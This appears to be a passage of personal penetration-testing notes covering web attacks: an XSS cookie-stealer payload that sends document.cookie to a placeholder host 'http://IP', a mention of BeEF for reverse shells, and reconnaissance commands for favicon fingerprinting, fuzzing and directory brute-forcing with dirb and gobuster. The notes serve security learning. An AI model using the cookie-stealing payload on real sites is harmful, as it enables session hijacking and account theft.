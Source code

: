 * HttpOnly: deny JavaScript access to the cookie. If this flag is not set, we can use an XSS payload can steal the cookie.

### Cookie Stealer Sample script

1. Find XSS vulnerability
2. Craft and inject payload
```
<script>new Image().src="http://IP/some.jpg?output="+document.cookie;</script>
```

### Use Kali's BeEF

BeeF can be used to get system info, users, rev shell etc.

## Insecure Deserialization

tbd properly

## Framework identification

* Wappalyzer
* Favicon
```bash
# grab the favicon like this 

curl https://ip.site.com/sites/favicon/images/favicon.ico | md5sum

#Then find the framework

https://github.com/nmap/nmap/blob/master/nselib/data/favicon-db

```
* Inspect Headers
`user@machine$ curl http://MACHINE_IP -v`

## Fuzzing

* https://github.com/ffuf/ffuf
* gobuster
* dibr

## My approach to Dirbusting

1. Quick scan with default dirb without recusive folder search
`dirb http://IP/ -r`

2. scan for common directories non recursively with gobuster first:
`gobuster dir -u http://ip -w /usr/share/seclists/Discovery/Web-Content/common.txt`

3. then scan recursively within found directories

`dirb http://ip /usr/share/seclists/Discovery/Web-Content/big.txt -X .html,.php,.cgi`
